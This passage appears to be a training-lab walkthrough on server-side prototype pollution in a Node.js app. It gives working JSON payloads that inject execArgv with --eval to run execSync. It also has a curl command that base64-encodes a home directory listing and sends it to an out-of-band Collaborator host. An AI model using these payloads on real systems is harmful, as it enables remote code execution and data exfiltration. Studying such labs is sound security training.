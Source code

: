 2. Send the request to Burp Repeater

<span style="background:#fff88f">Identify a prototype pollution source</span>
- In Repeater, add a new property to the JSON with the name `__proto__`, containing an object with a `json spaces` property.
```
"__proto__": {
    "json spaces":10
}
```
1. Send the request.
2. In the **Response** panel, switch to the **Raw** tab. 
	1. Notice that the JSON indentation has increased based on the value of your injected property. 
	2. This strongly suggests that you have successfully polluted the prototype.

<span style="background:#fff88f">Probe for remote code execution</span>
1. In the browser, go to the admin panel and observe that there's a button for running maintenance jobs.
    
2. Click the button and observe that this triggers background tasks that clean up the database and filesystem. 
	1. This is a classic example of the kind of functionality that may spawn node child processes.
    
3. Try polluting the prototype with a malicious `execArgv` property that adds the `--eval` argument to the spawned child process. 
	1. Use this to call the `execSync()` sink, 
		1. passing in a command that triggers an interaction with the public Burp Collaborator server. 
		2. For example:
```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```
1. Send the request.
2. In the browser, go to the admin panel and trigger the maintenance jobs again. 
	1. Notice that these have both failed this time.
    
3. In Burp, go to the **Collaborator** tab and poll for interactions. 
	1. Observe that you have received several DNS interactions, confirming the remote code execution

<span style="background:#fff88f">Leak the hidden file name</span>
1. In Burp Repeater, modify the payload in your malicious `input` parameter to a command that leaks the contents of Carlos's home directory to the public Burp Collaborator server. 
	1. The following is one approach for doing this:
```
"input":":! ls /home/carlos | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
```
1. Send the request.
2. In the browser, go to the admin panel and trigger the maintenance jobs again.
3. Go to the **Collaborator** tab and poll for interactions.
4. Notice that you have received a new HTTP `POST` request with a Base64-encoded body.
5. Decode the contents of the body to reveal the names of two entries: `node_apps` and `secret`.
